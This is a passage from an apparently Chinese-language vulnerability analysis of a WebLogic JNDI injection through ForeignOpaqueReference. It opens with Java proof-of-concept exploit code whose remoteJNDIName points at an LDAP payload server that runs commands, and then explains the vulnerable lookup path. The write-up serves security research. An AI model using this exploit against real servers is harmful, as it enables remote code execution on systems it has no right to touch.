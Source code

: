 ```java
        Hashtable env2 = new Hashtable();
        env2.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");

        // ForeignOpaqueReference的jndiEnvironment和remoteJNDIName属性
        ForeignOpaqueReference f = new ForeignOpaqueReference();
        Field jndiEnvironment = ForeignOpaqueReference.class.getDeclaredField("jndiEnvironment");
        jndiEnvironment.setAccessible(true);
        jndiEnvironment.set(f, env2);
        Field remoteJNDIName = ForeignOpaqueReference.class.getDeclaredField("remoteJNDIName");
        remoteJNDIName.setAccessible(true);
        String ldap = "ldap://192.168.10.14:1389/Basic/Command/calc";
        remoteJNDIName.set(f, ldap);

        // 远程绑定ForeignOpaqueReference对象
        c.rebind("sectest", f);

        // lookup查询ForeignOpaqueReference对象
        try {
            c.lookup("sectest");
        } catch (Exception e) {
        }
    }
}

```



### 分析

QpaqueReference在官方文档中提示了当实现此接口的对象从 WLContext 中检索（通过查找或 listBindings）时，由 getReferent() 返回对象。

因为ForeignOpaqueReference继承QpaqueReference，在远程查询该对象的时候，调用的将会是ForeignOpaqueReference.getReferent方法。

漏洞利用点在`weblogic.deployment.jms.ForeignOpaqueReference.getReferent`方法

![image-20230628163800653](https://raw.githubusercontent.com/todis21/image/main/image-20230628163800653.png)

分析这个方法，发现在后续的进行lookup操作之前会检查 JNDI 环境是否已正确配置以访问远程资源，主要是对jndiEnvironment和remoteJNDIName的检测，如果在if中的任何一个条件为真，那么将调用对象的lookup方法，其中`remoteJNDIName`和`jndiEnvironment`是可以通过反射修改

![image-20230628170005065](https://raw.githubusercontent.com/todis21/image/main/image-20230628170005065.png)

结合上面方框的代码其实可以发现，只要`this.jndiEnvironment`不为空，就可以对InitialContext进行初始化

现在要解决的问题是`remoteJNDIName`和`jndiEnvironment`要修改成怎样的值才能利用lookup()

目前能确定的是`remoteJNDIName=ldap://x.x.x.x:1389/aaaa`



进入lookup,需要满足判断：满足一个条件就行

```java
if (this.jndiEnvironment == null || !AQJMS_ICF.equals(this.jndiEnvironment.get("java.naming.factory.initial")) || this.remoteJNDIName == null || !this.remoteJNDIName.startsWith(AQJMS_QPREFIX) && !this.remoteJNDIName.startsWith(AQJMS_TPREFIX)) {
                retVal = context.lookup(evalMacros(this.remoteJNDIName));
} 
```
